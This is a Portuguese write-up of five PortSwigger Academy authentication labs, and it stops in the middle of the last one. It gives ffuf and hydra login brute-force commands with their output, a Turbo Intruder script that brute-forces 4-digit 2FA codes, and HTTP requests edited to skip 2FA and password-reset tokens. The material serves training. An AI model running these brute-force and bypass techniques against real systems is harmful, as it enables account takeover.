# **Autenticação (Vulnerabilidades) | Sonael de A. Angelos Neto**

- ## **Introdução a Vulnerabilidades na Autenticacão**

  - ## **O que são Vulnerabilidades na Autenticação?**

     Vulnerabilidades na autenticação são falhas ou brechas que podem ser exploradas por hackers ou atacantes para acessar sistemas ou redes protegidos de forma não autorizada. Elas podem ocorrer em diferentes etapas do processo de autenticação, como a criação de senhas fracas ou o uso de métodos de autenticação inseguros.

  - ## **Algumas das vulnerabilidades mais comuns na autenticação incluem:**

    1. Senhas fracas: Senhas fáceis de adivinhar ou que são usadas em várias contas diferentes são vulneráveis a ataques de força bruta, que consistem em tentativas de adivinhar a senha repetidamente até acertar.

    2. Autenticação de dois fatores (2FA) fraca: A autenticação de dois fatores é um processo de autenticação adicional que exige a inserção de um código de verificação enviado por SMS ou gerado por um aplicativo para acessar uma conta. No entanto, se a mensagem SMS é interceptada ou se o aplicativo é comprometido, a 2FA pode ser facilmente contornada.

    3. Autenticação por senha única: Alguns sistemas de autenticação permitem que os usuários acessem várias contas usando a mesma senha. Isso pode ser uma vulnerabilidade, pois se uma dessas senhas for comprometida, todas as contas vinculadas ficarão expostas.

    4. Autenticação por meio de cookies: Alguns sistemas de autenticação usam cookies para armazenar informações de login e permitir que os usuários acessem suas contas sem precisar fazer login novamente. No entanto, se esses cookies são comprometidos, os atacantes podem acessar as contas sem precisar de senhas.

    5. Autenticação por meio de tokens: Alguns sistemas de autenticação usam tokens para armazenar informações de login e permitir que os usuários acessem suas contas sem precisar fazer login novamente. No entanto, se esses tokens são comprometidos, os atacantes podem acessar as contas sem precisar de senhas.

  ### Nesse documento, iremos explorar `"Vulnerabilidades na Autenticacão"`, utilizando **5** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  - #### ***Username enumeration via subtly different responses***
  - #### ***2FA simple bypass***
  - #### ***2FA broken logic***
  - #### ***Password reset broken logic***
  - #### ***Password brute-force via password change***

---

### Ferramentas utilizadas:

- #### [ffuf](https://github.com/ffuf/ffuf) :
    - Utilizaremos o `ffuf` para realizar o brute force de login.

- #### [hydra](https://www.kali.org/tools/hydra/)
    - Utilizaremos também o `hydra` para realizar o brute force de login.

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end e também para realizar o brute force de login através do intruder e do turbo intruder.

---
    
## **• Username enumeration via subtly different responses.**

Nesse laboratório, o objetivo é conseguir acesso a uma conta de usuário, utilizando o método de brute force de login.

Para isso, iremos utilizar o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

```http

POST /login HTTP/1.1
Host: 0adc0080041796c6c00eef5200ad008b.web-security-academy.net
Cookie: session=vC3uLOV34GnlEqMRZBpwqbsiY0z8CxVp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net
Referer: https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=teste&password=test

```

Através da requisição acima, podemos ver que a aplicação está enviando `username=teste&password=test` para o back-end. Podemos usar essa requisição para realizar o brute force de login, utilizando o `ffuf`:

```bash

ffuf -w users.txt:USERS -w pass.txt:PASS -X POST -d "username=USERS&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -u https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login

```

onde `users.txt` é um arquivo com uma lista de usuários e `pass.txt` é um arquivo com uma lista de senhas que já foram fornecidas pelo laboratório e estão sendo referenciados pelo `-w`, o `-X` é para definir o método de requisição, o `-d` é para definir os parâmetros que serão enviados para o back-end, o `-H` é para definir o cabeçalho da requisição e o `-u` é para definir a URL que será utilizada.

Porém o mais comum aqui seria comparar o tamanho das respostas dada pelo servidor, para saber se o usuário existe ou não. Porém, nesse laboratório, o tamanho das respostas é muito diferente, independente do usuário testado.

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/portswigger                                                         02:52:07
╰──➤ ffuf -w users.txt:USERS -w pass.txt:PASS -X POST -d "username=USERS&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -u https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login
 :: Wordlist         : USERS: users.txt
 :: Wordlist         : PASS: pass.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERS&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 2979, Words: 1109, Lines: 63, Duration: 252ms]
    * PASS: 123456
    * USERS: admin

[Status: 200, Size: 2994, Words: 1118, Lines: 64, Duration: 252ms]
    * USERS: accounts
    * PASS: 123456

[Status: 200, Size: 2975, Words: 1109, Lines: 63, Duration: 283ms]
    * USERS: adkit
    * PASS: 123456

[Status: 200, Size: 2978, Words: 1109, Lines: 63, Duration: 283ms]
    * USERS: administrator
    * PASS: 123456

[Status: 200, Size: 2975, Words: 1109, Lines: 63, Duration: 289ms]
    * USERS: activestat
    * PASS: 123456


```

como visto acima, não é possível encontrar as credenciais apenas comparando o tamanho das respostas, então vamos filtrar pela `status code` da requisição pois, todos os usuários que não existem retornam o código `200`. Para fazer isso basta utilizar a flag `-fc`:

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/portswigger                                                         03:05:14
╰──➤ ffuf -w users.txt:USERS -w pass.txt:PASS -X POST -d "username=USERS&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -u https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login -fc 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login
 :: Wordlist         : USERS: users.txt
 :: Wordlist         : PASS: pass.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERS&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 249ms]
    * USERS: affiliate
    * PASS: buster

[WARN] Caught keyboard interrupt (Ctrl-C)

```

Agora sim, conseguimos encontrar as credenciais do usuário `affiliate` com a senha `buster`.

Também daria para conseguir o mesmo resultado utilizando o hydras, porém, o ffuf é mais rápido e mais fácil de utilizar. O diferencial do hydra é que você pode configurar uma flag de parada `-f` e uma frase `Invalid username or password` que é a frase que ocorre quando as credenciais estão incorretas, para que ele pare de testar quando encontrar a combinação correta.

```bash

hydra -L users.txt -P pass.txt https-post-form://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login:"username=^USER^&password=^PASS^:Invalid username or password" -f -t 40

```

Dessa forma ao logar com as credenciais `affiliate` e `buster` é concluído o laboratório.




---


## **• 2FA simple bypass.**

Nesse laboratório, o objetivo é bypassar a autenticação de dois fatores da conta `carlos` e acessar a página de perfil.

Ao logar com as credenciais `wiener:peter` é possível ver que o usuário `wiener` possui um código de autenticação de dois fatores, que é enviado para o email.



Apos logar vemos que a url padrão do perfil é `https://0a5e006d03aeb272c11453d300990073.web-security-academy.net/my-account`

Agora voltando para o laboratório e logando com o usuário `carlos`, podemos ver que o usuário `carlos` também possui um código de autenticação de dois fatores, que é enviado para o email.

Porém se alterarmos a url que verifica o código de autenticação de dois fatores `"https://0a5e006d03aeb272c11453d300990073.web-security-academy.net/login2"` para `"https://0a5e006d03aeb272c11453d300990073.web-security-academy.net/my-account"` conseguimos acessar a página de perfil do usuário `carlos`.



Dessa forma, conseguimos acessar a página de perfil do usuário `carlos` sem passar pelo código de autenticação de dois fatores, Assim concluindo o laboratório.



---

## **• 2FA broken logic.**

O objetivo desse laboratório é acessar a página de perfil do usuário `carlos` sem passar pelo código de autenticação de dois fatores.

Ao logar com as credenciais `wiener:peter` é possível ver que o usuário `wiener` possui um código de autenticação de dois fatores, que é enviado para o email.

porém ao analisar a requisição feita para pegar o código de autenticação de dois fatores, podemos ver que o cookie `verify` é enviado para o servidor.

```http

GET /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=wiener
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

``` 

Esse parametro `verify` pode ser alterado para `carlos` fazendo com que seja gerado um código de autenticação de dois fatores temporário para o usuário `carlos`.

```http

GET /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=u6jfqJqycVGkV90CvgV9m0KHQAKL6t5J; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Para fazer brute force no código de autenticação de dois fatores que foi gerado para carlos, precisamos analisar requisição de como é feito o login.

```http

POST /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=wiener
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

mfa-code=1234

```

Podemos ver que o cookie `verify` é enviado para o servidor, e o código de autenticação de dois fatores é enviado no corpo da requisição e é através desse código que vamos fazer o brute force.

Para fazer o brute force, vamos usar uma extensão do burp suite chamada `turbo intruder`, que é uma versão do intruder so que melhorada.

Colocamos essa requisição no `turbo intruder` e alteramos os parâmetros `verify=wiener` para `verify=carlos` e o `mfa-code=1234` para `mfa-code=%s` onde o `%s` é o payload que vai ser enviado para o servidor.

```http

POST /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

mfa-code=%s

```

No `turbo intruder` utilizaremos um código em python para fazer o brute force, que é o seguinte:

```python

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.BURP
                           )

    for num in range(0, 10000):
        mfa_code = '{0:04}'.format(num)
        engine.queue(target.req, mfa_code.rstrip())


def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)

```

onde o `mfa_code` é o código de autenticação de dois fatores que vai ser enviado para o servidor, e o `range(0, 10000)` é o intervalo de números que vai ser enviado para o servidor. O código também irá mostrar apenas as requisições que retornaram o status code 302, que é o status code de redirecionamento.

Após isso, clicamos em `start attack` e o `turbo intruder` irá fazer o brute force no código de autenticação de dois fatores.



E a requisição que retornou o status code 302 foi:

```http

POST /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

mfa-code=0255

```

agora basta clicar em `show request in browser` e copiar a url gerada pelo `burp suite` e colar no navegador



E assim o laboratório é concluído.



---


## **• Password reset broken logic.**

O objetivo desse laboratório é conseguir acessar a conta de `Carlos` através do reset de senha.

No laboratório, temos uma página de login com um botão `forgot password` que nos leva para a página de reset de senha.



A página de reset de senha pede o username do usuário que queremos resetar a senha, nesse caso vamos usar o usuário `wiener`, e o email é enviado para o email do usuário.



Ao clicar no link somos levados para a página de reset de senha, onde temos que colocar a nova senha.



Ao definir a nova senha, podemos analisar a requisição que foi feita através do `burp suite`.

```http

POST /forgot-password?temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu HTTP/1.1
Host: 0a89003503a27776c3bc9d6300850035.web-security-academy.net
Cookie: session=NxrUrDNEbw41iETeigK3yr8TCK9YkVVW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net
Referer: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net/forgot-password?temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu&username=wiener&new-password-1=sonael&new-password-2=sonael

```

A requisição acima mostra que tem um parâmetro chamado `temp-forgot-password-token` tanto na url quanto no corpo da requisição, que impedem que o usuário altere a senha de outro usuário, pois o token é gerado para cada usuário.

Além disso, temos um parâmetro chamado `username` que é o usuário que queremos resetar a senha, e os parâmetros `new-password-1` e `new-password-2` que são as novas senhas.

Porém se excluirmos o valor do parâmetro `temp-forgot-password-token` da url e do corpo da requisição, a aplicação não irá impedir que o usuário altere a senha de outro usuário. Isso acontece porque o parâmetro `temp-forgot-password-token` não está sendo validado na aplicação.

então através do `burp suite` vamos alterar a requisição para que o parâmetro `temp-forgot-password-token` seja removido da url e do corpo da requisição e junto com isso vamos alterar o parâmetro `username` para `carlos`.

```http

POST /forgot-password?temp-forgot-password-token= HTTP/1.1
Host: 0a89003503a27776c3bc9d6300850035.web-security-academy.net
Cookie: session=NxrUrDNEbw41iETeigK3yr8TCK9YkVVW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net
Referer: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net/forgot-password?temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

temp-forgot-password-token=&username=carlos&new-password-1=sonael&new-password-2=sonael

```	

Agora podemos logar com o usuário `carlos` e a senha `sonael`.



Finalizando o laboratório.




---


## **• Password brute-force via password change.**

Nesse laboratório vamos aprender a fazer um brute-force na senha de um usuário através da página de alteração de senha.

ao logar com o usuário `wiener` e a senha `peter`, podemos ver que temos uma página de alteração de senha.



ao tentar alterar a senha percebe-se um comportamento estranho, pois ao colocar a senha certa no campo `Current password` e em `new password` e `confirm new password` colocar senhas diferentes, a aplicação mostra uma mensagem especifica para aquela combinação de senhas.



E é através dessa mensagem **New passwords do not match** que vamos fazer o brute-force na senha do usuário `carlos`.

Vamos usar o `intruder` do **Burp Suit** para enviar a requisição e alterar o parâmetro `current password` para uma lista de senhas que o laboratório nos fornece.

```http

POST /my-account/change-password HTTP/1.1
Host: 0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net
Cookie: session=yKqzNle7KN7rOq3j47YyzoZeWdj7s7db; session=HkVFVOoMwGCt8VGpwFt171avoKvvyofC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
